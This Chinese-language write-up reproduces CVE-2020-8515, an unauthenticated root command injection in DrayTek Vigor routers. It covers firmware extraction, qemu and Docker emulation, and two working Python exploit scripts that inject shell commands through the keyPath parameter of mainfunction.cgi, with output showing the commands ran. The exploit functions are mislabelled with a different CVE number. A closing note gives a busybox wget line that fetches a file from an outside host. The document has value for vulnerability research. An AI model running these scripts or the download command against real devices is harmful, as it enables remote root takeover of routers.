

# 漏洞信息

```
DrayTek Vigor2960 1.3.1_Beta, Vigor3900 1.4.4_Beta, and Vigor300B 1.3.3_Beta, 1.4.2.1_Beta, and 1.4.4_Beta devices allow remote code execution as root (without authentication) via shell metacharacters to the cgi-bin/mainfunction.cgi URI. This issue has been fixed in Vigor3900/2960/300B v1.5.1.

draytek
vigor2960_firmware
Match
1.3.1
beta


draytek
vigor300b_firmware
Match
1.3.3
beta

draytek
vigor300b_firmware
Match
1.4.2.1
beta

draytek
vigor300b_firmware
Match
1.4.4
beta

draytek
vigor3900_firmware
Match
1.4.4
beta
```

# 固件下载

1.4.1   https://www.draytek.com.tw/ftp/Vigor2960/Firmware/v1.4.1/Vigor2960_v1.4.1.zip

# 系统架构

```
➜  bin readelf busybox -h
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           ARM
  Version:                           0x1
  Entry point address:               0xcef8
  Start of program headers:          52 (bytes into file)
  Start of section headers:          524384 (bytes into file)
  Flags:                             0x4000002, Version4 EABI, <unknown>
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         6
  Size of section headers:           40 (bytes)
  Number of section headers:         25
  Section header string table index: 24
```

# bin 目录

```
➜  root ls -hl bin 
total 628K
-rw-rw-r-- 1 lzx lzx  506 Jul 28  2018 RUN_cgi.sh
-rw-rw-r-- 1 lzx lzx 1022 Jul 28  2018 acs_config_apply
-rw-rw-r-- 1 lzx lzx  148 Jul 28  2018 add_vlans
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 addgroup -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 adduser -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 ash -> busybox
-rw-rw-r-- 1 lzx lzx 514K Jul 28  2018 busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 cat -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 chgrp -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 chmod -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 chown -> busybox
-rw-rw-r-- 1 lzx lzx 3.5K Jul 28  2018 config_apply
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 cp -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 date -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 dd -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 delgroup -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 deluser -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 df -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 dmesg -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 echo -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 egrep -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 false -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 fgrep -> busybox
-rw-rw-r-- 1 lzx lzx 2.6K Jul 28  2018 firstboot
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 grep -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 gunzip -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 gzip -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 ipcalc -> busybox
-rw-rw-r-- 1 lzx lzx  688 Jul 28  2018 ipcalc.sh
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 kill -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 ln -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 lock -> busybox
-rw-rw-r-- 1 lzx lzx  476 Jul 28  2018 login
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 ls -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 mkdir -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 mknod -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 mktemp -> busybox
-rw-rw-r-- 1 lzx lzx  13K Jul 28  2018 modecode
-rw-rw-r-- 1 lzx lzx  15K Jul 28  2018 modecodem
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 more -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 mount -> busybox
-rw-rw-r-- 1 lzx lzx  29K Jul 28  2018 msp_io_app
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 mv -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 netmsg -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 netstat -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 nice -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 pidof -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 ping -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 ping6 -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 ps -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 pwd -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 rm -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 rmdir -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 sed -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 sh -> busybox
-rw-rw-r-- 1 lzx lzx  317 Jul 28  2018 show_dns_cache
-rw-rw-r-- 1 lzx lzx 1.1K Jul 28  2018 show_mac_address_lan
-rw-rw-r-- 1 lzx lzx 1.1K Jul 28  2018 show_mac_address_wan
-rw-rw-r-- 1 lzx lzx  770 Jul 28  2018 show_routing
-rw-rw-r-- 1 lzx lzx 2.3K Jul 28  2018 show_statistic
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 sleep -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 sync -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 tac -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 tar -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 touch -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 true -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 umount -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 uname -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 usleep -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 vi -> busybox
lrwxrwxrwx 1 lzx lzx    7 Sep  4 04:03 zcat -> busybox
```

# 注意事项

执行权限添加

```
find ./_firmware.bin.extracted/ -type f -exec chmod +x {} \;
```

# 环境搭建

```
dd if=/dev/random of=dev/urandom bs=10240 count=1
dd if=/dev/random of=dev/random bs=10240 count=1
touch var/run/lighttpd.pid
cd etc/lighttpd
cp host.crt lighttpd_https.crt
cp host.pem lighttpd_https.pem
cd etc
mv config-default config
cd www/portal
mv index.html.tmp index.html
```

注释掉两个include：

```
➜  lighttpd head -n 20 lighttpd.conf 
# lighttpd configuration file
# 
## modules to load
# all other module should only be loaded if really neccesary
# - saves some time
# - saves memory

#include "https.conf"
#include "sslproxy.conf"
sudo chroot . ./qemu-arm-static -L . ./usr/sbin/lighttpd -D -f ./etc/lighttpd/lighttpd.conf
```

# 问题解决

```
[pid 49455] openat(AT_FDCWD, "/tmp/rsa/binary_login", O_WRONLY|O_CREAT|O_TRUNC, 0666) = -1 ENOENT (No such file or directory)
[pid 49455] write(2, "Failed to open file: No such fil"..., 47Failed to open file: No such file or directory
) = 47
```

对应cgi程序**mainfunction.cgi** 的反汇编代码部分：




解决：

```
touch tmp/rsa/binary_login
```

# Dockerfile

```
FROM scratch
COPY ./root /
WORKDIR /
EXPOSE 80
CMD ["/qemu-arm-static","-L",".","/usr/sbin/lighttpd","-D","-f","/etc/lighttpd/lighttpd.conf"]
```

运行

```
docker container run -d  -p 8000:80 cve-2020-8515
```

访问 http://10.88.253.105:8000/help_default.html 进行验证：


# poc

```python
#!/bin/python3
import requests

def cve_2022_30525_exp(ip,port,cmd,isHttps):
    if isHttps:
        url = f"https://{ip}:{port}/cgi-bin/mainfunction.cgi"
    else:
        url = f"http://{ip}:{port}/cgi-bin/mainfunction.cgi"

    headers = {
        "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0"
    }

    data = "action=login&keyPath=%27%0A%2fbin%2f" + cmd + "%0A%27&loginUser=a&loginPwd=a"
    res = requests.post(url=url, data=data, timeout=(10, 15), headers=headers,verify=False)
    if res.status_code == 200:
        print(res.text)
        return res.text
    else:
        return ""

cve_2022_30525_exp("10.88.253.105","8000","cat${IFS}%2fetc%2finittab",False)
```

效果：

```
*[main][~/Work/iot_exp/CVE-2020-8515]$ python3 exp.py
/Users/hanhancat/Library/Python/3.9/lib/python/site-packages/urllib3/__init__.py:34: NotOpenSSLWarning: urllib3 v2 only supports OpenSSL 1.1.1+, currently the 'ssl' module is compiled with 'LibreSSL 2.8.3'. See: https://github.com/urllib3/urllib3/issues/3020
  warnings.warn(
::sysinit:/etc/init.d/rcS S boot
::shutdown:/etc/init.d/rcS K stop
tts/0::askfirst:/usr/bin/clish
ttyS0::askfirst:/usr/bin/clish
tty1::askfirst:/usr/bin/clish
::sysinit:/etc/init.d/rcS S boot
::shutdown:/etc/init.d/rcS K stop
tts/0::askfirst:/usr/bin/clish
ttyS0::askfirst:/usr/bin/clish
tty1::askfirst:/usr/bin/clish
```

# exp

```python
#!/bin/python3
import requests

def cve_2022_30525_exp(ip,port,cmd,isHttps):
    if isHttps:
        url = f"https://{ip}:{port}/cgi-bin/mainfunction.cgi"
    else:
        url = f"http://{ip}:{port}/cgi-bin/mainfunction.cgi"

    headers = {
        "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0"
    }

    cmd = cmd.replace(" ", "${IFS}")

    data = "action=login&keyPath=%27%0A%2fbin%2f" + cmd + "%0A%27&loginUser=a&loginPwd=a"
    res = requests.post(url=url, data=data, timeout=(10, 15), headers=headers,verify=False)
    if res.status_code == 200:
        print(res.text)
        return res.text
    else:
        return ""


cve_2022_30525_exp("10.88.253.105","8000","touch /tmp/aaaa",False)
```

通过`docker exec -it 4a296f6f65c8 /qemu-arm-static /bin/sh`命令，到docker中查看效果

```
/ # ls tmp/
lighttpdcompress  login_ip.lock     rsa
/ # ls
bin              data             lib              qemu-arm-static  sys              usr
boot             dev              mnt              rom              tmp              var
config_backup    etc              proc             sbin             touch            www
/ # ls /t
ls: /t: No such file or directory
/ # ls /tmp/
aaaa              lighttpdcompress  login_ip.lock     rsa
```

# 注意事项

cmd 有长度限制最长为len("busybox${IFS}wget${IFS}-O${IFS}/tmp/1${IFS}http://10.66.64.201:8080/1.t")


# 参考资料

CVE-2020-8515 漏洞分析与利用

https://www.hayasec.me/2020/03/31/cve-2020-8515/

CVE-2020-8515-PoC

https://github.com/imjdl/CVE-2020-8515-PoC/blob/master/PoC.py

draytek漏洞分析

https://zhuanlan.zhihu.com/p/359567676